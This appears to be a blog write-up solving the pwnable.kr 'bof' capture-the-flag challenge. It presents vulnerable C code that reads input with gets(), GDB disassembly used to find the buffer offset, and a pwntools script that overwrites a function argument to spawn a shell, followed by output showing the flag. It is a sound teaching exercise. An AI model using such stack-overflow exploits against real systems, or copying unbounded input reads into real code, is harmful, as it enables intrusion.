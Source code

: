 ```yaml
---
title: "Binary Exploitation | Pwnable.kr - bof"
permalink: "binary-exploitation/pwnablekr/:title"
layout: post
---
```




```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}

int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

This is a classic buffer overflow challenge, the code reads user input and stores it in a 32 bytes array using `gets()` which doesn't do any size checking.

So if we enter say a hundred characters we will overflow the buffer array `overflowme` and write past it in memory.

The goal of this challenge is to overwrite `key` with the value  `0xcafebabe`, by default function arguments are stored at `ebp+8, ebp+c, ...`, there is only on argument so we now it's at `ebp+8` (note that in 64 bit systems, function arguments are stored in the registers).

Using GDB, we can disassemble `func` to know the exact offset of the input buffer array from the `key` argument.

```
gef➤  disassemble func 
Dump of assembler code for function func:
.....
   0x56555644 <+24>:	call   0xf7e2db70 <puts>
=> 0x56555649 <+29>:	lea    eax,[ebp-0x2c]
   0x5655564c <+32>:	mov    DWORD PTR [esp],eax
   0x5655564f <+35>:	call   0xf7e2d0c0 <gets>
=> 0x56555654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
.....
```

Great, now we now the buffer is at offset `0x2c` from ebp, so we need to send: 

**[0x2c characters to reach ebp + 4 bytes for saved ebp + 4 bytes for the return address + the value 0xcafebabe]**.

# Solution:

```python
#solve.py

from pwn import *

p = remote('pwnable.kr', 9000)

buf = ""
buf += 'A' * 0x2c
buf += 'XXXX'		# saved ebp
buf += 'XXXX'		# ret address
buf += p32(0xcafebabe)	# value to overwrite key

p.send(buf)
p.interactive()		# for interactive shell
```

```
$ python2 solve.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode

$ ls
bof
bof.c
flag
log
log2
super.pl

$ cat flag
daddy, I just pwned a buFFer :)
```

Flag: `daddy, I just pwned a buFFer :)`